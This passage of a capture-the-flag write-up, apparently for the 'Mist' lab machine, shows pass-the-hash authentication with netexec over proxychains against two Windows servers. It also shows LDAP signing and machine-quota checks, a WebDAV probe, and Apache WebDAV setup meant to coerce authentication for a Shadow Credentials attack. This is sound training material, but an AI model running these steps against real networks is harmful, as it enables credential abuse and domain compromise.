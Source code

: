 ```bash
proxychains -q nxc smb 192.168.100.101 -u 'Brandon.Keywarp' -H 'db[...]c9'
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] mist.htb\Brandon.Keywarp:db[...]c9 

proxychains -q nxc smb 192.168.100.100 -u 'Brandon.Keywarp' -H 'db[...]c9'
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
SMB         192.168.100.100 445    DC01             [+] mist.htb\Brandon.Keywarp:db[...]c9
```
Ok nice !! 

Let's check some things

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'Brandon.Keywarp' -H 'db[...]c9' -M maq
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\Brandon.Keywarp:db[...]c9 
MAQ         192.168.100.100 389    DC01             [*] Getting the MachineAccountQuota
MAQ         192.168.100.100 389    DC01             MachineAccountQuota: 0
```
```powershell
PS C:\xampp\htdocs\data\modules\aa> ./GetWebDAVStatus.exe 192.168.100.101

[x] Unable to reach DAV pipe on 192.168.100.101, system is either unreachable or does not have WebClient service running
```
```bash
proxychains -q nxc ldap 192.168.100.100 -u 'Brandon.Keywarp' -H 'db[...]c9' -M ldap-checker
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\Brandon.Keywarp:db[...]c9 
LDAP-CHE... 192.168.100.100 389    DC01             LDAP Signing NOT Enforced!
LDAP-CHE... 192.168.100.100 389    DC01             LDAPS Channel Binding is set to "NEVER"
```
Ok so we can try to enable WEBDAV on MS01 to coerce authentication from MS01$ to perform a ShadowCreds attack 

First we need to create our WebDav server and enable him on MS01$ :

```bash
sudo a2enmod dav
sudo a2enmod dav_fs

sudo mkdir /var/www/webdav
sudo chown -R www-data:www-data /var/www/webdav
sudo chmod -R 755 /var/www/webdav

sudo touch /var/www/webdav/DavLock
```

```console
# in ----> /etc/apache2/sites-enabled/000-default.conf

DavLockDB /var/www/DavLock

<VirtualHost *:80>
        # WebDav Configurations
        Alias / /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                Options Indexes MultiViews
                AllowOverride None
        </Directory>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
```